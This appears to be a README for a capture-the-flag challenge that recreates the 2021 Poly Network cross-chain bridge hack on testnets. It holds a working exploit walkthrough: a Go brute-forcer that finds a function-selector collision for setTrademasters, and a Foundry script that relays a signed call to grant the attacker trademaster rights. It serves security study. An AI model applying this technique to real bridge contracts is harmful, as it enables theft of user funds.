 # POLY NETWORK - REKT
Based on the 2021 Poly Network hack from the [Rekt Leaderboard](https://rekt.news/leaderboard/). 

## Overview

Poly is a cross-chain protocol allowing users to trigger cross-chain transactions/messaging.

From rekt.news:
> Poly has a contract called the "EthCrossChainManager". It's a privileged contract that has the right to trigger messages from another chain. It's a standard thing for cross-chain projects.
> It has a function named verifyHeaderAndExecuteTx that anyone can call to execute a cross-chain transaction.
> It (1) verifies that the block header is correct by checking signatures (seems the other chain was a poa sidechain or) and then (2) checks that the transaction was included within that block with a Merkle proof.
> One of the last things the function does is call executeCrossChainTx, which makes the call to the target contract. This is where the critical flaw sits. Poly checks that the target is a contract, but they forgot to prevent users from calling a very important target... the "EthCrossChainData" contract

In this repository, [`TradingBoat.sol`](contracts/TradingBoat.sol) is simulating `EthCrossChainManager` and [`TradingData.sol`] is simulating `EthCrossChainData`. 

The goal is to exploit `TradingBoat.sol` and be able to call `setTrademasters(address[])`.

## Deployments 
| Network       | Contract        | Address      |
| ------| ------|-----|
| Fuji  	| TradingBoat  	| [0x423e0D8466B6a962286C718E92b751B87b65a48c](https://testnet.avascan.info/blockchain/c/address/0x423e0D8466B6a962286C718E92b751B87b65a48c)	| 
| Sepolia   | TradingBoat  	| [0x871A6C16D8BC5ECA345c697b4aA1CDe4BF95341e](https://sepolia.etherscan.io/address/0x871A6C16D8BC5ECA345c697b4aA1CDe4BF95341e)	| 

## Walkthrough
We have two TradingBoats deployed, one on Sepolia and the other on Avalanche Fuji.

The objective is to make make the TradingBoat on Sepolia call the `setTrademasters(address[])` function from TradingData since it is the owner. The below function allow us to do this:
```solidity
   function relayShipment(
        string calldata _method, 
        bytes32[] calldata _args,
        uint64 _fromChainId,
        address _fromContract,
        address _toContract,
        bytes calldata _signature
    ) external {
        
        address fromTradingBoat = tradingData.tradingBoatByChainId(_fromChainId);
        CrossChainCall memory crossChainCall = CrossChainCall({
            fromChainId: _fromChainId,
            fromContract: _fromContract,
            toChainId: THIS_CHAIN_ID,
            toContract: _toContract,
            method: _method,
            args: _args
        });

        // (1) Verify that signature belongs to a trademaster
        address signer = _bridgeHash(crossChainCall, fromTradingBoat)
            .toEthSignedMessageHash()
            .recover(_signature);
                
        require(
            tradingData.isTrademaster(signer),
            "ERROR: INVALID CROSS-CHAIN SIGNATURE"
        );

        // (2) Call destination contract
        bytes memory functionSig = abi.encodePacked(_method, "(bytes32[],uint64,address)");
        bytes4 selector = bytes4(keccak256(functionSig));

        (bool success, ) = _toContract.call(
            abi.encodeWithSelector(selector, _args, _fromChainId, _fromContract)
        );

        require(success, "ERROR: SHIPMENT TO CLIENT FAILED");
    }
```

We need to find a `_method` so that `keccak256(abi.encodePacked(_method, "(bytes32[],uint64,address)"))` first 4 bytes result into `setTrademasters(address[])` selector: `0xef51774d`.

I've written the [find.go](find.go) script to do the job:
```go
package main

import (
	"bytes"
	"fmt"
	"strconv"
	"encoding/hex"
    "golang.org/x/crypto/sha3"
)

func main() {
	target, _ := hex.DecodeString("ef51774d")
	
	for result := 0 ; ; result++ {
		i := []byte(strconv.Itoa(result))

		hash := sha3.NewLegacyKeccak256()
		hash.Write([]byte("attack"))
		hash.Write(i)
		hash.Write([]byte("(bytes32[],uint64,address)"))
		buf := hash.Sum([]byte{})

		if bytes.Compare(buf[0:4], target) == 0 {
			fmt.Printf("%x found with : attack%d(bytes32[],uint64,address)\n", buf, result )
			println("IDX=", result)
			return
		}

		if result > 0 && result%1000000 == 0 {
			println("IDX=", result)
		}
	}
}
```

After few minutes, it returns `attack1908084701(bytes32[],uint64,address)`. We can run [`SendShipment.s.sol`](scripts/SendShipment.s.sol) using `attack190808470` as _method parameter with `forge script scripts/TradingBoat.s.sol --rpc-url fuji -vvv --broadcast` on Fuji.

It returns `0xe563231067eff803d7b67ce328b77866b29f3dfa7e0967f0cae1839c0e3ecc37̀`. 

We give this to the TradeMaster that will search for the matching cross-chain event on Fuji, and return the required signature:
```
Signature: 0xdfcb71ad5b91bbcb5818aab6c9319c7e025b331bcb1f54bd1082253e29601f3571a06c46d4ca69e33604c6dff656f23eeda01932398ff6f4a50bbc9bcc3041671b
```

Then, we can use this signature to run [`RelayShipment.s.sol`](scripts/RelayShipment.s.sol):
```solidity
// forge script scripts/RelayShipment.s.sol --rpc-url sepolia --broadcast 
contract RelayShipmentScript is Script {
    uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");

    function run() public  {
        vm.startBroadcast(deployerPrivateKey);
        TradingBoat tradingBoat = TradingBoat(0x871A6C16D8BC5ECA345c697b4aA1CDe4BF95341e);

        uint64 _chainId;
        string memory _method = "attack1908084701";
        bytes32[] memory _args = new bytes32[](1);
        _args[0] = bytes32(uint256(uint160(0x26d403E1E1A1239d8b6f5907dE272CF311104753))); // address to input in setTrademasters(address[])
        uint64 _fromChainId = 43113; //fuji
        uint64 _toChainId = 11155111; //sepolia
        address _fromContract = 0x26d403E1E1A1239d8b6f5907dE272CF311104753; // fuji msg.sender
        address _toContract = 0x39eEddbBD4D133c3fcb0fD7B971f807Fc3552569; // sepolia TradingData

        bytes memory _signature = hex"dfcb71ad5b91bbcb5818aab6c9319c7e025b331bcb1f54bd1082253e29601f3571a06c46d4ca69e33604c6dff656f23eeda01932398ff6f4a50bbc9bcc3041671b";
        tradingBoat.relayShipment(_method, _args, _fromChainId, _fromContract, _toContract, _signature);
        vm.stopBroadcast();
    }
}
```

Now, our address 0x26d403E1E1A1239d8b6f5907dE272CF311104753 is a TradeMaster aswell.